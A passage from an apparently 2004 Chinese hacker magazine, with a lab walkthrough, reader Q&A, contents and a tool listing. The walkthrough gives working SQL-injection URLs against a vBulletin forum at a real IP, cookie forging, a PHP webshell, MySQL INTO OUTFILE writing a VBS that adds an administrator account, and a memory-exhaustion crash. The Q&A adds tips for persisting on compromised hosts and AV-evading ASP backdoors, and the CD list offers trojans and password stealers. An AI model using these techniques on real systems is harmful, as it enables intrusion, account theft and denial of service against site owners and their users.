http://219.237.81.47/labwww/calendar.php?action=edit&eventid=1'
```

看，数据库出错了，好，继续。再去看看漏洞描述：

```text
http://www.ph4nt0m.net/bbs/showthread.php?s=&threadid=31005

http://www.nsfocus.net/index.php?act=sec_bug&do=view&bug_id=5887&keyword=vBulletin
```

好像只影响 2.3.4 以下版本，而此论坛却是 2.3.4 的，奇怪了。怎么会还有这个漏洞，难道是管理员改了版本信息？管它呢，接着来。

```text
http://219.237.81.47/labwww/calendar.php?action=edit&eventid=2%20union%20(SELECT%20usergroupid,coppauser,99,'0000-0-0',password,lastpost%20FROM%20user%20where%20userid=1)%20order%20by%20eventdate
```

显示没权限，为什么呢？后来又研究了一下源代码，原来是判断了 userid，先看看我自己注册的用户的 ID。转到主页，把光标移到我新注册的 ID 上面，看到了 userid=28，好，再来提交：

```text
http://219.237.81.47/labwww/calendar.php?action=edit&eventid=1'%20union%20(SELECT%20usergroupid,coppauser,28,'0000-0-0',password,lastpost%20FROM%20user%20where%20userid=1)%20order%20by%20eventdate
```

yeah！管理员经过加密的密码出来了：

```text
cf5444e2c745f8d065bd4084cc9e6199
```

有了它，可以选择暴力破解，但我不想费那个事，还是 cookie 欺骗吧！——拿出 iecv.exe，关掉刚才打开论坛的 IE，把我原来的用户的 cookie 修改掉，修改 bbpassword、bbuserid 这两个地方：

```text
bbpassword=cf5444e2c745f8d065bd4084cc9e6199
bbuserid=1
```

刚才我们已经修改过 cookies，哈哈，好了，修改过后保存，再打开 IE，访问 http://219.237.81.47/labwww/ 。

现在我是管理员了！——可惜，进不了后台！后台是 session+cookie 验证的，没有密码进不去。想想论坛有个忘记密码功能，是不是可以利用一下？于是编辑个人资料把原来管理员的 email 改掉，改成我自己的，保存后退出，再次登录，输入管理员的用户名，密码乱输，确定过后说我密码不对，还问我是不是忘了密码，叫我点那里！晕啊晕！没办法，我只好点了一下：

```text
http://219.237.81.47/labwww/member.php?action=lostpw
```

叫我填一个 email 地址？！填什么呢？就填刚才我修改的 chacker@hackermail.com 吧！OK，它说密码发到我的邮箱里！马上去收邮件。Gogogo！——服务器上的论坛总是太慢，等半天都不来……再点一下吧！说新密码已经再次发送到我的邮箱里了！再刷新下看看，密码真的来了！啊呵，黑防的办事效率真高啊！哈哈！现在我们拿着它发给我的管理员的密码登录，进去后直奔后台！

```text
http://219.237.81.47/labwww/admin/
```

好了，第一步成功！我们的目标是系统管理员桌面上的过关文档！但有个管理员密码是不够的，需要 webshell！

# 控制服务器

找一个上传头像的地方，上传一下个头像，好像没有限制上传文件类型，真是失败啊！我将我写的一个简单的 webshell 上传上去。

```php
<pre>
<?
$cmdstr = $HTTP_GET_VARS['cmd'];
$cmdstr = StripSlashes($cmdstr);
system($cmdstr);
?>
</pre>
```

上传到哪儿去了？这里：http://219.237.81.47/labwww/linup.php ，有了 webshell，什么事都好办了，去看一下 admin/config.php，看看论坛使用的数据库用户是不是 root：

```text
http://219.237.81.47/labwww/webshell.php?cmd=type%20d:\www\admin\config.php
```

看到了用户名是 root，密码是空了，奇怪？难道被其他人人侵了？用我的 mysql.exe 连一下：

```text
D:\mysql\bin>mysql -h219.237.81.47 -uroot
ERROR 1045: Access denied for user: 'root@xxx.xxx.xxx.xxx' (Using password: NO)
```

晕，不给进，想必是只有本地连接才不需要密码的，没关系，反正有了 shell，上传一个 fpipe 转一下就行了，再写一个上传的 uploadx.php：

再利用这个 uploadx.php 把 fpipe、pslist、pskill 等常用必备工具上传上去，http://219.237.81.47/labwww/webshell.php?cmd=fpipe%20-l%209999%20-s%209998%20-r%203306 127.0.0.1

OK，端口转向做好了。用 mysql 连上去吧：

```text
D:\mysql\bin>mysql -h219.237.81.47 -uroot -P9999
Welcome to the MySQL monitor. Commands end with ; or \g.
Your MySQL connection id is 1531 to server version: 4.0.18-nt

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.
mysql>
```

在 mysql 中依次执行以下命令：

```sql
use test;
create table xxx(cmd #TEXT);
insert into xxx values('set wshell=createobject("wscript.shell")');
insert into xxx values('a=wshell.run ("cmd.exe /c net user tsinternetuser fxxxxx",0)');
insert into xxx values('b=wshell.run ("cmd.exe /c net localgroup administrators tsinternetuser /add",0)');
select * from xxx into outfile "C:\Documents and Settings\Administrator\「开始」菜单\程序\启动\\xxx.vbs";
```

好！我现在成功地将一个 VBS 写入到 administrator 用户的启动目录里，等下次管理员登录的时候会自动将 tsinternetuser 这个用户密码改为 fxxxxx，并加到管理员组中！够狠吧？！呵呵。——可问题来了：有什么办法让管理员登录呢？对了！让机器死掉，让它重启，嘿嘿……

好！马上写一个简单的 C 程序，让它不断地 malloc 分配内存，而且不 free，看它死不死机！

```c
#include <stdio.h>
#include <malloc.h>
int main()
{
    for(;;)
    {
        malloc(0xffffff);
    }
    return 0;
}
```

编译过后上传上去并执行，过了好一会，机器果然死了，WEB 访问不了，这下等吧，等管理员重启。嘿嘿！wtf 估计又要被我阴了！哈哈。过一会，给黑防打个电话，嘻嘻，说服务器挂了，要求重新启动一下^_^，重新启动后，我们就有一个管理员用户咯……

> wtf：BT 啊 BT 啊！上一轮就被搞，这次又被踢！郁闷，不过真正的高手是非常会利用这些小技巧的。好了，不废话了，我和脚本小子他们正在研究第十关这位过关者发过来的 exp，虽然漏洞利用程序已经有了，但是得验证一下，大家期待着我们公布最新的漏洞吧！

马上就到五一了，编辑部全体一千人等正在紧张地工作中。大家为了赶在五一前给读者朋友们提供一期高质量的杂志，每个人都在勤勤恳恳地工作，连脚本小子平时嬉笑的面孔也收敛起来了，正在那里埋头苦干，抓住最新实验室第十关的漏洞不放……看大家都熬红了眼睛，想让大家调剂一下，于是发了个小小的号召——没想到小小的活动竟然产生了一系列的后果。炮王、P胡王等称号开始在大家疲惫的脸上引出一丝难得的笑容，那一刻，我无比感动……兄弟们，你们辛苦了！……

**刘流：** 某周六深夜，小编正忙于编辑稿件，突然QQ中收到wtf兄的紧急呼叫：“蝴蝶mm在，快来联众搓麻，联众房号×号。”慑于他的淫威，不得不从（哈哈，主要是自己也想悠闲轻松一下，还有蝴蝶mm作陪，何乐而不为？！）。听说wtf已经被脚本小子授予“最佳炮手”的荣誉称号，于是怀着必胜的信心，匆忙准备相关作战工具（不是wtf亲眼看到他是不信的，一个联众的安装程序居然提示有10G多！倒霉，联众偏偏在我去的时候出错，看来这场战争注定是非常艰难的！），安装完毕后，冲进房间，一屁股坐在了蝴蝶妹妹对家座位上。

说实在话，我以前没在联众上玩过“国粹”，不过小编打三岁起就历经各种磨练。遥想刘流当年，雄姿英发，可曾因“国粹”成为了全村第一个百万富翁（在那时候我们那帮小朋友眼里，可是以纸代钞的哦）。当时其他各小麻友都因此回家挨骂：“再怎么着也总该给家里留一点顶纸吧。”我因此也思考过自己是否过于绝情和缺德，把大家的纸币都赢光了，因而最终善心大发，给他们每人赠送一些以备急用。

虽然自从离家之后，疏于牌场，偶尔回家放松一下，对“牌王”一职也是当仁不让。不过，今天碰上“最佳炮手”wtf，呵呵，我岂能不偷着乐，好久没有开过荤了。wtf啊，你可是自找的，待会可莫怪我无情无义！！！

初战，早早下听，我压抑住内心的狂喜，右键一起，五筒出，一个窗口很不友好地蹦出来，还没搞清楚怎么回事，蝴蝶mm已经在一旁乐开了：“哈哈，你放炮了。”之后，每每我下听之际，便是我放炮之时。看得出，蝴蝶mm也实非等闲之辈，而wtf也应该已经深深体会到了“创第一易，守第一难”的艰辛。几圈下来，我已经输得只剩满身疮痍了。这时，icefire大驾摆到，我想，拉他垫背应该挺舒服的。为了拾起已经落满一地的面子，我准备进行游击战，就是那2分、3分的P胡，我也是丝毫不放过。我发出“英雄王成”震天般的怒吼，呼吁众兄弟“向我开炮！！”，但最终发现，原来做英雄也是需要人成全的。偶尔几次得逞，最终还被icefire授予“P胡王”之称号。不过，历经千辛万苦，正当收到wtf“这盘打完收工，继续工作”之指令时，我第一次被icefire的炮弹击中了。虽然在这场没有硝烟的战争中，我被授予两大荣誉：“最佳炮手+P胡王”，但值得欣慰的是，这场战争最终也算是以我的胜利而告终。我相信，这仅仅只是战争的开始，欲知后事如何，还须下回分解。

**脚本小子：** “网络就好比一个跳动着的、富有生命气息的社会。它的每一个节奏我们都能感觉得到。成都的雨还是渐渐沥沥地下着，我猛然觉得这网络好像变得更虚幻，而我们就是生存在虚幻世界里面的角色，每一步都被别人看到，而别人的每一步也被我们看到……”

写得怎么样？嘿嘿，这可是偶的临场发挥，意境如何？见笑见笑……

编辑部的生活总是那么快乐，每一个工作者都在为不断地给读者创造更精彩的文章而努力工作着：“这个脚本漏洞危险很大，暂时不能公开。”老牌作者“臭要饭的！”已经为了一个漏洞整整3天没合眼了；蝴蝶为实时追踪网络最新攻击战况，已经对着显示器盯得眼睛都红了；刘流为了配置一个防火墙攻击体系已经傻看了一上午，估计是被什么给难住了；Socket就在那里狂研究溢出程序，嘴巴里面还嘟咕着：整型溢出，缓冲溢出……回头看看偶们的wtf在忙什么：wtf动了动眼皮嘀咕道：“一得一，二七一十七，阿呜，这个人的稿费偶得给他双倍……”哇啊吐！

偶们的编辑部，很平静；偶们的心，很平静；偶们的网络，很不平静……只因为它永远那么虚幻，抓不到痕迹，也因为它建立了广大读者和我们的桥梁，却又那么真实！——继续创作ing。

**Socket：** 带着对黑防的无限热爱，带着对工作的无限热情，我来到了黑防。眨眼间，已经好几个月了。作为一个新来的小编，很高兴能在黑防这个大舞台和大家见面，大家当我是自己人就OK了，有问题大家多交流，杂志、论坛、信箱三维立体为大家服务！

在来黑防之前，我是一个不折不扣的“黑防迷”，每期杂志上市之前都是掰着手指算着日期，在把杂志拿到手上之后都有一种说不出的兴奋，在细细品读之后也会动手做做实验。可惜条件有限，很多内容不能完全掌握，现在还是大菜鸟一个！（wtf：晕！你还是菜鸟啊……）不过聊天还是比较拿手的，有时间的话，大家可以侃侃！嘿嘿，在看杂志的时候，觉得每一位作者都是我的老师，所以很希望能和他们交流一番，这次算是如愿以偿了，可以和作者在网上做面对面的接触了！

这次来到黑防有幸得到老编wtf的厚爱，这个可爱的小资本家站在泰山之巅，啧啧地喊：“用人之长、避人之短、容人之错，是为将才”！呵呵，王者风范啊！icefire，是个看问题很深刻、语言犀利的家伙；刘流，很平易近人，还很幽默，当然都是很有才华的人。我就不行了，呵呵，在长辈面前我还是个初出茅庐的小孩子。有这些才华横溢的编辑们为大家呕心沥血，我们的成果肯定会得到大家的认同的……

哎呀，又被foxmail的漏洞分析给搞晕了，全说胡话，大家别见怪啊！呵呵，不过，我为这个团队而高兴，相信通过大家的努力一定会有成功的一天！

# 你问我答

最近很多朋友反映我们这几期太偏重于理论研究了，缺少了实际的操作和思维分析。我们很慎重地讨论了这个问题，发现我们的攻册和防册在很多地方有拖沓或者废话的地方。感谢大家及时地给我们提出意见，让我们及时发现问题。从这期开始，大家可以发现我们的理论研究已经在逐步地减少，而实际的漏洞利用和直接的可行性分析已经渐渐多了起来。同时，在防册上，我们会做版块的大改动，专门为大家提供实用为主的内容！让大家能直接操作而学会一些技术！亲爱的读者朋友，如果你有其他建议和意见，可以直接给我们发信，同时也欢迎你自己觉得非常好的人侵小技巧给我们投稿！mail to: hack@hacker.com.cn

**论坛 黑亮：** 我在登上肉鸡后，经常怕被管理员发现，于是需要看看终端有没有人，如何方便呢？或者说如果发现有人，如何用CMD命令注销使用终端的用户？

**脚本小子：** 如果是在cmd的方式下，可以用`netstat -an`来查看网络连接，3389端口上只有你自己的IP，那当然是没有问题的；但是如果有其他人，很明显就是另外还有人在上面了。

还有一种办法，使用`quser`也可以检测，比如：

```text
C:\Documents and Settings\Administrator>quser

USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>administrator        console            0   运行中
                      2004-4-6 13:17
>lcx                  console            1   已断开
                      2004-4-6 13:17

C:\Documents and Settings\Administrator>logoff 1
```

这样使用`logoff + id`也同样可以使另外的连接断开。

**成都 飞扬：** 我的服务器是用的SQL SERVER，网站上用的是asp，但经常被攻击，请问怎么去掉SA的SHELL权限？就是在MSSQL中，虽是SA的权限却让它不能执行系统命令？

**刘流：** 依次指向开始→程序→Microsoft SQL Server→查询分析器，第一步执行：`use master`，第二步执行：`sp_dropextendedproc 'xp_cmdshell'`。详细的安全设置本期有对应的文章，大家可以仔细看看。

**论坛 小武：** 有个网站，费尽千辛万苦拿到dvbbs7.0后台和前台密码，但是郁闷的是不能修改上传类型，在后台找了半天都没找到，怎么办啊？

**脚本小子：** 动网7.0比较费劲，就算得到前、后台密码，如果论坛没装插件，想改后台上传还是比较麻烦，但并不是说没有办法！

比如你在后台里，论坛帮助、广告等东西是可以修改的，把你的asp后门代码贴上，提交修改，再下载一个同版本的论坛，仔细看看帮助、广告的地址，直接访问这个页面就OK了！

**论坛 zk：** 我安装软件时经常提示“安装程序引擎失败，不支持此接口”，重新做系统也这样，请问编辑这是为什么啊？

**蝴蝶：** 现在的好多软件的安装程序都不是exe而是msi，而msi是一种新的安装程序的脚本文件。就算有的安装程序是exe的，但在它的安装目录里也有个msi文件，实际上是exe调用msi文件来安装程序的。msi是脚本文件，实际上真正运行脚本文件的是“msiexec.exe”，它就是一切问题的原因。需要安装instmsiw.exe这个文件，instmsiw.exe是一个压缩包，里面包括了所有关于运行msi所需要的文件，运行后问题就可解决了。

**吉林 冬天：** 我在一个公司上班，不允许上QQ，但偏偏我又是个没QQ活不了的人，所以请问一下，如何把QQ隐藏起来不被人发现？

**蝴蝶：** 首先在QQ在线的状态下点击系统托盘中的QQ图标，在菜单中选择“系统参数→参数设置”选项卡，去掉“在任务栏显示图标”复选框前面的“√”，这样系统托盘中的小企鹅图标就消失了，这就实现了第一步的隐藏。

然后再取消“自动弹出信息”前面的“√”，将“设置提取消息热键”中的“使用热键”打上“√”。现在你可以使用默认热键“Ctrl+Alt+Z”或者自定义热键来激活QQ聊天了。另外注意，将“好友上线通知”前面的“√”也去掉，免得好友上线的“滴滴”声被别人发现。接着在“QQ参数设置”对话框中点击“声音设置”标签，选择“关闭声音”。

最后把QQ窗口拖到显示器边角上，让它也隐藏起来！好了，现在你的QQ已经完全变成隐身QQ了！你要是不告诉别人，谁都看不出来咯！

**论坛 暗火三：** 现在的asp后门都要被杀，怎么办呢？有没有不被杀的本地脚本后门啊？

**脚本小子：** 不被杀只是个相对概念，没有完全不被杀的说法。按你的意思应该是调用了一些东西才让后门被杀了，那就使用无组件上传吧，而且是本地，代码很短，只有6行：

```asp
strFileName = Request.QueryString("file1")
Set objStream = Server.CreateObject("ADODB.Stream")
objStream.Type = 1  ' adTypeBinary
objStream.Open
objStream.LoadFromFile strFileName
objStream.SaveToFile Server.MapPath("123_onweb.gif"), 2
```

在使用的时候，把上面的代码写成upload.asp，然后在浏览器里面输入：http://***/upload.asp?file1=c:\上传文件\123.gif，***为你的主机地址，执行完后你会看到你的目录下面多了一个123_onweb.gif，它就是你要的文件啦！

# 征稿启事

《黑客防线》倡导互动，推崇读者参与办刊，更希望本刊成为一个八仙过海、百家争鸣的大舞台，给每个读者都提供上台展示自己的机会。欢迎读者参与投稿，投稿信箱为：hack@hacker.com.cn，我们将在第一时间给您回复！

## 稿件内容要求

涉及到网络安全方面的攻击、防范技术是我们的主体内容。攻击方面关注最新的系统漏洞、脚本漏洞的实际利用方法，各种最新木马、后门程序的特色使用方法，非常欢迎自己开发的、有特别功能的后门、木马投稿。在入侵技术方面，灵活的入侵思维是最重要的，通过某种小技巧或者小技术入侵系统是最好的稿件。

在防范方面，针对最新的系统漏洞、第三方程序漏洞的深入防范技巧、各类脚本攻击技术的防范和各类安全防范类工具的特点应用是稿件的主体内容；另外，网络管理方面实用小技巧、小文章也可以投给我们，不足千字的，稿费按千字算。

## 投稿格式要求

来稿一律使用Word编排，将图片插入文章中适当的位置，并标明“图1”“图2”；文章代码过长请打包另存并做详细说明指向；文章格式工整，错别字少。

## 稿费标准

《黑客防线》实行优稿优酬的稿费评定标准，从技术新颖程度、入侵思维灵活度、事件影响程度、文笔幽默得当等方面综合考虑稿费，稿费标准在80—200元/千字，欢迎大家积极投稿！

## Serv-U漏洞的“史诗”

2003年是漏洞横行的一年，时常奔波于各大站点的小编们常处于一种不安分的游离状态，每个人脸上均披着因各类Bugs而留下的印记。常回忆起当初WEBDAV、RPC、SQL INJECTION……等盛行的情况，编辑部里“某人”更因此养着一大批新生的肉鸡——高速服务器，让别人心中莫名地腾起杀虚之阵……

2004年开始，大伙儿刚从RPC漏洞中解脱出来，Serv-U又惊现第二个漏洞，悄然潜伏于内心的悸动又通过雷霆行动再次展示出来，据说也因此造就了一大批的新生肉鸡。当然在入侵同时，很多网站以保护肉鸡为由，鼓动大家不要忘记为之打上补丁，而各大网管或许闻到风声，也渐渐地打上各式补丁，或是除旧迎新——装上最新版的Serv-U FTP软件（v5.0.0.4）以保一方净土。

可惜事情好像并未就此画上句号，因为这个BUG在现阶段互联网上还广泛地存在着，且较多机器还是敞开着Banner，注明“入侵许可”的标志。在黑防官方网站上，某牛人的帖子更让人触目惊心：“Serv-U 5.0.0.4发现有FTP远程缓冲区溢出漏洞……”，很快小编们也拿到了基于此版本的代码并编译为执行文件，又一次疯狂开始！

第一次Serv-U漏洞是针对Serv-U v3.x－4.2的，出现时间估计是在2003年6月；第二次具体时间无从考究了，不过应该是在2004-1月以前；第三次漏洞针对所有Serv-U版本（那时还没有出现v5.0.0.4），出现时间不完全估计是在2004年1－2月。3次漏洞对比可以看出越后发现的漏洞越具有大面积的杀伤力，而且前面两个漏洞需要具有写入权限的帐号，后者并不需要：只要有帐号（包括匿名）就可以了。纵观攻击者的人数与积极程度也几何级别递增，被溢出的机器多是个人FTP服务器、电影网站FTP服务器、论坛公布的FTP服务器，或是扫描得到弱口令的FTP服务器，也有人从FTP入手将空间商的服务器系统权限拿下，后面要做的事就多了，嘿嘿！

小编们曾私下热烈讨论过这样的情况：现在最流行的入侵手法是什么？最后达成的共识是脚本漏洞＋系统漏洞，从低的IIS权限过渡到高的系统权限，而攻击目标最多的就是虚拟主机。所以才有我们本轮攻防实验室的设置风格，就是想让实验室能成为真正的真实入侵平台，让大家熟悉这样的人侵方式，学到好的网络安全技术——果真，真正的黑客都是贴近真实入侵平台的，这次的实验室很快就被人攻破了！而漏洞，还是Serv-U！

不知不觉又犯下夸夸其谈的老毛病，亦是笔锋急转的时候了。现在大家就和我们一起冲向各大网站吧，事先还是那句老话：“各人负责好自己的自身安全！胆要大心要细，黑兵器要多漏洞要全……准备工作完成，开工！”

# 特别专题

- 网页木马让你肉鸡成群——网页木马制作、隐藏、传播全接触 ...... 6

## 漏洞攻击

- 寻宝记——渗透某安全站点全过程 ...... 12
- 抢先体验Windows LSA远程溢出 ...... 14
- Serv-U v5.0.0.4远程缓冲区溢出分析——Serv-U v5.0.0.4 and prior畸形文件名远程溢出 ...... 15

几个月前KKQQ首先发现了Serv-U的远程缓冲区溢出，并在本刊发布了漏洞分析；当时由于Serv-U FTP的使用范围非常广，所以该漏洞造成了很大的危害；很多虚拟主机服务商因为都是用的这个FTP服务器，所以几乎都被这个漏洞入侵过，Serv-U的厂商也赶紧发布了补丁。可惜，当网络上各服务器管理员都还在忙着为Serv-U打补丁的时候，最新的漏洞又出现了！网络，再一次陷入恐慌，你知道这个漏洞吗？

## 脚本攻击

- 如何给远程服务器写入文件 ...... 18
- 把DVBBS7.0拉下马 ...... 20

动网论坛一直是国内非常权威的Asp中文论坛，而dvbbs7更是众多安全论坛中的明星。当动网7刚发布的时候，无数喜欢安全的朋友对它的源代码进行了分析，大多数朋友都得出了“非常安全”的结论；的确，动网7的安全性有很大提高，但是，绝对没有任何100%安全的程序在网络中存在！动网7的最新漏洞足以证明这一点！

- 直击Ofstar论坛代码安全 ...... 23
- 小记入侵《黑客防线》从计划到失败全过程 ...... 25
- 轻松突破动网下载积分限制 ...... 26
- 动网／动力文章系统打印页面注入漏洞 ...... 27
- 榨干MS SQL最后一滴血 ...... 28

相信不少读者已经对SQL Injection很熟悉了，不过这篇文章有所花样，使用了MS SQL一些未公开使用方法的函数进行渗透，而且一些原来没有公开的技巧也已经在本文中有所提到，希望大家能真正掌握SQL注入的高级技术，本期的几篇文章一定不会让喜欢脚本的朋友失望哦！

- 浅谈PHP+MYSQL注射语句构造——Okphp BBS v1.3代码安全分析 ...... 30
- 怪异的SQL高级注入 ...... 33
- 也玩phpBB攻击 ...... 35

## 黑兵器库

- Serv-U本地权限提升就这么简单——工具使用篇 ...... 36

Serv-U在最近几个月的网络安全事件中可算是倒霉了，几乎每次入侵都离不开它，它自己的漏洞也是层出不穷。到现在为止，两个远程缓冲区溢出，一个本地溢出，一个配置缺陷，任何一个漏洞都可以让服务器在很短的时间内倒塌！现在又传出了让大家兴奋的消息：利用任意版本的Serv-U配置缺陷来提升权限的自动攻击工具又出现了！网络，必将又一次掀起Serv-U入侵狂潮！

- CHM木马也疯狂 ...... 37
- ASP木马也带客户端——由海阳顶端ASP木马2004版说起 ...... 40
- 体验超级木马Zxshell ...... 42
- 千变万化恢复xp_cmdshell

## 定价：23.8元

在本书中，可以看到各种有关网络安全方面的工具代码和代码注释（主要代码一并收录在本书的配套光盘中）。网络上流传的黑客工具很多，但你有没有想过尝试开发自己的黑客工具呢？也许有些朋友会觉得这对于自己来说太过于高深了，但只要看了本书后，你就会明白黑客工具是怎样写出来的。

书中介绍了运用多种开发语言，如Visual Basic、Visual C++等工具来开发，书中的代码部分完全是流行的工具代码，并且都有中文注释，很容易就可以看明白。

书中列举了几位国内著名Hacker的代码，并且加上说明提要。在本书的配套光盘中，不仅概括了书中的代码，还收录了其他一些黑客工具代码和相关工具代码以及一些黑客工具等等。

## 定价：19.8元

《黑客防线》2003年增刊以8个栏目涵盖了黑客技术起步、进阶提高在内的66篇全新文章，分类很详细。每篇文章都经过精心挑选打造，是编辑部在长期读者调查的基础上，结合读者的喜好，特约作者撰写汇编而成。每个栏目的文章有一定的梯度，最适合想进一步提高黑客技术的读者阅读。

# CONTENTS

**定价：19.8元**

《黑客攻防 One To One》一书收集了广大上网用户经常遇到的网络安全问题，针对这些问题，编者按照“问题”——“分析”——“防范”的思路，条理清晰地告诉你在网络上如何应对黑客可能进行的入侵与反攻击，并对自己的计算机系统进行最有效的防护，以及如何进行反入侵与攻击。

内容涵盖了从开始接触网络到熟练应对各种网络攻击的大量技巧，可以说是一本了解黑客入侵手段，从而掌握各种防护对策的最佳入门读物。通过介绍黑客可能采取的攻击手段、黑客攻击的思路、各种入侵工具的结合使用，详细分析了黑客攻击的方法和防范对策，从而对黑客攻击有一个充分的认识。

学习本书不需要专业的网络知识，适用于广大希望增强网络安全意识的网络爱好者阅读。

本书光盘收集了书中解决问题用到的所有工具；另外，还收集了优化系统、提高防范措施所用到的大量共享软件，配合书中解决问题的思路，灵活运用，完全可以做到保证一个系统的安全运行。

- 汇款地址：北京市中关村邮局 008 信箱
- 邮政编码：100080
- 收款人：《黑客防线》邮购部
- 热线电话：(010)62141446 / 62141445-8011
- E-mail：yougoubu@hacker.com.cn
- 利用 MSSQL 数据库存储扩展取得服务器权限 .......... 44

## 编程解析

- Serv-U 权限提升就这么简单——编程原理篇 .......... 46
- VB 打造强力注册钩查看器 .......... 48
- 反 Rootkit 编程精华——绕过调试寄存器保护直接修改物理地址 .......... 50
- 轻松实现进程“伪隐藏” .......... 52
- 基于反向连接的木马编写思路 .......... 54

## 密界寻踪

- XCG CrackMe 算法分析 .......... 55
- 暴破重启后注册检查程序：英语会话精灵——不用汇编破解软件 .......... 57
- 巧用资源编辑工具突破某著名网络电视软件功能限制 .......... 59

## 新兵训练营

- 一次简单的入侵反击战 .......... 61
- 盗链炸晕黑客联盟（77169.com） .......... 63
- 详解屏蔽 Telnet 服务的 NTLM 认证 .......... 64
- DSL 帐号暴破危机 .......... 65

很多 DSL 虚拟拨号上网的朋友会遇到一些郁闷的事情：某一天突然发现自己拨不上去了，不管怎么试，程序总是提示用户名／密码错。咨询过电信相关工作人员后你会发现这并不是机房服务器故障，在排除了大多数可能性后，你终于断定一点：DSL 密码给人改了，或者是有人正在使用你的 DSL 帐号上网！虽说这样给你造成的直接损失或许不大，然而你从此后不一定可以安稳地上网了，或者在某一天你又得为 DSL 帐号的事而头痛……

- 灵活的批量上传 .......... 67
- 用区位输入法搞乱聊天室 .......... 68

## e生e事

- 黑／白仔的故事 .......... 69
- 超经典口误 .......... 70

## 入侵点滴

- 妙用 GOOGLE 找数据库 .......... 71
- 在不知对方网站物理路径时植入 webshell
- 通过 Serv-U MDTM 漏洞获得 3389 肉鸡
- 如何修改终端服务的端口号
- DVBBS 7.0 SP2 的一个小漏洞 .......... 72
- 通过 ASP 修改 NT 使用者的密码
- EXE 转为 BAT
- 微软 Word 2003 Bug 再现

# 入侵问答

## 攻防实验室

- 实验室第九关过关过程重放 .......... 75
- 实验室万元大奖水落石出 Serv-U 本地溢出惊现江湖 .......... 76

## 编读互动

## 漏天剑

`\loutianjian.htm`

- **DameWare NT Utilities v4.2.0.2**  
  一款功能强大的 Windows NT/2000/XP/2003 服务器远程控制软件，只要拥有一个远程主机的管理账号，就能使用它远程 GUI 下登录交互控制主机。
- **MessengerOverflow (MS03-043).c**  
  利用 MS03-043 漏洞而攻击的工具。
- **MS0336 (released)**  
  微软最新漏洞 ms04011 扫描和溢出程序。
- **MsnShell 1.0**  
  隐藏通道工具。它把 Shell 命令/响应隐藏地封装在 MSN 协议中传送出去。无需安装客户端，只由一个可执行程序组成服务端。
- **网络守望者 V1.5**  
  一个针对个人计算机的跨平台远程监控软件产品，可以从自己计算机上同时远程监视和控制多台计算机。
- **QQ密码发送者**  
  记录 QQ 登录名字和密码等，并发送到指定的信箱中。
- **QQ远控精灵 v1.0**  
  一个利用 QQ 来进行远程控制的小木马，功能不是很多，但实现了不受内外网而在两个不同的局域网内都可进行互控。
- **Xyercley's E-Mail Bomber**  
  一款功能不错的 e-mail 炸弹，利用接收者邮件搜索其 SMTP 服务器，而且使用双线程。
- **懒人短消息攻击器 V1.01**  
  结合各大短信网站普遍都有漏洞而制作成的，能有效地对手机进行短消息攻击。
- **粉色信鸽 V2.5**  
  一个典型的 c/s 远程控制类软件，具有文件管理、注册表管理、进程管理、屏幕和鼠标直接控制以及其他综合管理功能。
- **Airsnort-win32-0.2.2**  
  从 Linux 移植到 Win32 上的无线安全利器。
- **……**

## 自由园

`\crazycrack.htm`

- **网络执法官 V2.69 破解版补丁**  
  一款局域网管理辅助软件，能穿透客户端防火墙对网络中的每一台主机进行监控。
- **Alcohol 120% v1.4.8.1222 破解版补丁**  
  支持多种映像文件格式，可以利用其它软件所产生的光盘映像文件直接挂载进 Alcohol 120% 虚拟光驱中。
- **Advanced PDF Password Recovery Pro 2.12**  
  可以恢复 PDF 的加密文件，密码恢复的速度相当快。
- **Cain v2.5 beta46**  
  密码破解综合工具，可以远程破解，可以挂字典以及暴力破解，其 sniffer 功能极其强大，几乎可以明文捕获一切账号口令。
- **Daemon Tools 3.46 中文补丁**  
  一个不错的虚拟光驱工具，支持 Win9x/2k，支持 PS，支持加密光盘，装完不需启动即可用。
- **Dialupass v2.0**  
  可以列举出电脑中所有拨号程序的账号、密码及登录域。
- **艾菲网页侦探 3.52 注册机**  
  一个集协议网络跟踪器、协议分析器和 HTTP 文件重建工具于一体的软件。
- **流光 5.0 破解补丁**  
  破解数字验证、时间限制和 IP 限制等。
- **Foxmail V5.0 Beta2 密码破解器**  
  复制到 Foxmail 安装目录下运行。只适用于 Foxmail 5.0 Beta2。
- **THC-Hydra v3.1**  
  可以用来对需要网络登录的系统进行快速的字典攻击，支持 SSL 加密。
- **Lithium POP/FTP cracker**  
  一款 POP/FTP 暴力破解软件，支持用户名和密码字典，以及单用户名匹配全部密码和单密码匹配全部用户名形式的猜解。
- **RainbowCrack 1.2**  
  一款 Windows 密码破解工具，同时也是杂凑算法加密的破解利器，其它的加密方式破解也可以很容易地添加到该软件中。
- **FTP Serv-U V5.0.0.4 汉化破解补丁**  
  非常好的 FTP 服务软件，设置简单，功能强大，性能稳定。
- **UltraEdit v10.10b 破解补丁**  
  一套极棒的文字、Hex、ASCII 码编辑器。
- **Intelore Word Password Recovery v1**  
  可以帮助你快速地找回丢失或者遗忘的 Word 文档的密码。

## 点金石

`\dianjinshi.htm`

- **程序大战 1.0**  
  这一对抗模型可看作是原始病毒对抗，每个程序要尽力地消灭其他程序。为了能够生存，程序应该能保护自己，不断移动自身来躲过其他程序的攻击，或者当自身受到攻击后能自我修复。
- **攀达反捆卫士**  
  一款应用领域很广的信息安全保护软件。它可以有效地防范本机的文件数据被他人通过各种方式拷贝、泄密。
- **SuperGate 代理服务器 V1.2.0510**  
  最方便、监控管理功能最强大的代理服务器。
- **VMware Workstation 4.5.1 Build 7568**

**VMware Workstation 4.5.1 Build 7568**  
最强的虚拟机软件，不需要重开机就能在同一台电脑使用好几个 OS。

**hxdef100**  
Ithinker Hacker Defender v1.0.0 Release，包括源代码。  
……

## 黑录像

`\donghuxue.htm`

- **MS04-011 远程溢出演示**
- **远程盗 QQ 动画演示**
- **不闪烁网页木马制作方法动画演示**
- **4899 端口入侵动画教程**
- **将 SQL 肉鸡变成 3389 动画教程**
- **防止木马随计算机启动动画演示**
- **万能注册码动画教程**
- **巧妙破解木马软件限制功能动画教程**
- **本地 QQ 温柔掠夺器制作**
- **灰鸽子迷你 hack 版动画教程**
- **深络雅境图文系统最新漏洞入侵教程**
- **智力破解密码解霸 4.10 所有版本**
- **用 winhex 破解 Pubwin4.0 密码的动画**
- **GIF 木马动画教程**
- **美萍破解演示动画**
- **修改终端客户端端口动画教程**
- **让 QQ 变成免费会员动画教程**
- **无数 QQ 秀随你拿动画教程**
- **使用 radmin 控制肉鸡动画教程**
- **Serv-U MDTM 溢出动画教程**
- **SQL Injection 攻击入侵服务器动画**
